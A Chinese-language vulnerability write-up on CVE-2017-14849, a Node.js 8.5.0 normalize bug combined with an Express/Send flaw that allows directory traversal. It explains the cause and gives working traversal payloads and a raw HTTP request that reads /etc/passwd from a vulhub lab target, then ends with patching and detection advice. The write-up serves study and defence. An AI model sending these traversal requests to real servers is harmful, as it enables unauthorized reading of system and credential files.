




# 漏洞名称：Node.js 目录穿越漏洞

<!-- more -->

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

express 这类 web 框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express 在判断 path 是否超出静态目录范围时，就用到了`normalize`函数，Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的 BUG 可以影响的绝非仅有 express，更有待深入挖掘。

---

### 漏洞危害

任意文件读取

---

### 影响范围

Node.js 8.5.0 + Express 3.19.0-3.21.2
Node.js 8.5.0 + Express 4.11.0-4.15.5

---

## 漏洞原理

> 参考链接：https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。具体如下：

Express 依赖 Send 组件，Send 组件 0.11.0-0.15.6 版本 pipe()函数中，如图：



Send 模块通过`normalize('.' + sep + path)`标准化路径 path 后，并没有赋值给 path，而是仅仅判断了下是否存在目录跳转字符。如果我们能绕过目录跳转字符的判断，就能把目录跳转字符带入 545 行的`join(root, path)`函数中，跳转到我们想要跳转到的目录中，这是 Send 模块的一个 bug，目前已经修复。

再来看 Node.js，Node.js 8.5.0 对 path.js 文件中的`normalizeStringPosix`函数进行了修改，使其能够对路径做到如下的标准化：

```
assert.strictEqual(path.posix.normalize('bar/foo../..'), 'bar');
```

新的修改带来了问题，通过单步调试发现，可以通过`foo../../`和目录跳转字符一起注入到路径中，`foo../../`可以把变量`isAboveRoot`设置为`false`（代码 161 行），并且在代码 135 行把自己删掉；变量`isAboveRoot`为`false`的情况下，可以在`foo../../`两边设置同样数量的跳转字符，让他们同样在代码 135 行把自己删除，这样就可以构造出一个带有跳转字符，但是通过`normalizeStringPosix`函数标准化后又会全部自动移除的 payload，这个 payload 配合上面提到的 Send 模块 bug 就能够成功的返回一个我们想要的物理路径，最后在 Send 模块中读取并返回文件。

该漏洞是建立在文件夹通过 express.static 来托管的情况下，因为在这种情况下才会使用 normalize 函数进行 path 标准化。

比如代码这样写：

```
app.use(express.static(path.join(__dirname, 'static')));
```

那么 payload 应该是

```
/../../../a/../../../../etc/passwd
```

但代码如果是这样写的话：

```
app.use(``'/static'``,express.static(path.join(__dirname, 'static')));
```

那么 payload 应该为：

```
/static/../../../a/../../../../etc/passwd
```

---

## 漏洞利用

### 靶机环境

vulhub/node/CVE-2017-14849

---

### 利用方式

访问`http://your-ip:3000/`即可查看到一个 web 页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。



发送如下数据包，即可读取 passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```



或者访问其他文件：



---

## 威胁防护建议

### 用户处置建议

避免使用受影响版本的 node.js

---

### 安全产品检测建议

检测类似`../../../foo/../../../../etc/passwd`的目录遍历形式

---

> https://drive.weixin.qq.com/s?k=AD4AGAfCAAw86qs7kb)
